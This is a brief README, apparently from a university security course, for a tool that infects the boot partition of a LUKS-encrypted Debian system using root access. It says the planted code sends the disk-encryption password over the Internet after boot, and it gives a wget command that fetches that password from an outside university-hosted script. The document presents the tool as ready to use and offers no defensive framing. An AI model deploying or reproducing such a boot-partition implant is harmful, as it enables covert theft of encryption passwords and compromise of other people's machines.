 LUKS infection under Debian
===========================

## Requirements

- A root access on the targeted device
- The targeted device must use LUKS and a Debian-like operating system


## Set up

Run `infect.sh` on the targeted device to automatically infect the boot partition used by LUKS.
  
  
## Password retrieval

The password will be sent over the Internet (as long as the targeted device is connected) after having completed its boot.
  
    wget http://uuu.enseirb-matmeca.fr/~fmonjalet/secu/read.php
